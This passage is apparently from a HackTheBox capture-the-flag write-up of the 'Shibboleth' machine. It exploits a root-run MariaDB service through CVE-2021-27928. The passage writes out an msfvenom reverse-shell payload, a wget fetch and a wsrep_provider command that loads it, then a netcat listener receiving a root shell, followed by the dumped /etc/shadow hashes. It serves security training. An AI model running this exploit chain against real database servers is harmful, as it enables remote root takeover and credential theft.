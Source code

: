 Cracking the hashes is however useless and probably a rabbit hole. Guest comes back empty and after 30 minutes I gave up with Admin.

-------------

<br>

### Step 2
Digging around further into the running process we can see that mysql is running as root, something that's not best practice at all.

```bash
ipmi-svc@shibboleth:/etc/ayelow$ ps aux | grep root
[... snip ...]
root        1252  0.0  0.0   2608  1732 ?        S    07:08   0:00 /bin/sh /usr/bin/mysqld_safe
root        1412  0.5  3.5 1729516 143560 ?      Sl   07:08   0:49 /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/x86_64-linux-gnu/mariadb19/plugin --user=root --skip-log-error --pid-file=/run/mysqld/mysqld.pid --socket=/var/run/mysqld/mysqld.sock
```

Reading around for vulnerabilities for MariaDB v10.3.25 I come across [CVE-2021-27928](https://packetstormsecurity.com/files/162177/MariaDB-10.2-Command-Execution.html) which allows an authenticated attacker to execute OS commands as the user running the SQL service. Sound perfect to us! 

```bash
┌──(void㉿void)-[/htb/shibboleth]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=4499 -f elf-so -o CVE-2021-27928.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: CVE-2021-27928.so
```
```bash
ipmi-svc@shibboleth:/dev/shm$ wget http://10.10.14.6/CVE-2021-27928.so
ipmi-svc@shibboleth:/dev/shm$ mysql -u zabbix -p -h 127.0.0.1 -e 'SET GLOBAL wsrep_provider="/dev/shm/CVE-2021-27928.so";'
Enter password: 
ERROR 2013 (HY000) at line 1: Lost connection to MySQL server during query
```
```bash
┌──(void㉿void)-[/htb/shibboleth]
└─$ nc -lvnp 4499                                                                                     
listening on [any] 4499 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.124] 33832
id && hostname
uid=0(root) gid=0(root) groups=0(root)
shibboleth

cat /root/root.txt
04543075052e692020a01b60d8670c0f

cat /etc/shadow
[... snip ...]
root:$6$HeRqkRJL9pttp4EY$TBE4vztPy9lOaywPhVdhQHwiPa09s7RJw418EMjmS0RKea/1QBwLqTHK84ato5yDBF59dMvSNbQQ1pVy.K1dp.:18741:0:99999:7:::
ipmi-svc:$6$rnKUQQE9QwT1bVVt$7JWeqxtaYfMZa0EO0clguLK4Fh3N/IN6djXUl2M2MQ5PHVmQ1vLwlxnNMVhn7y/oEpjltVyvbw1wbBBZ//apV.:18925:0:99999:7:::
```
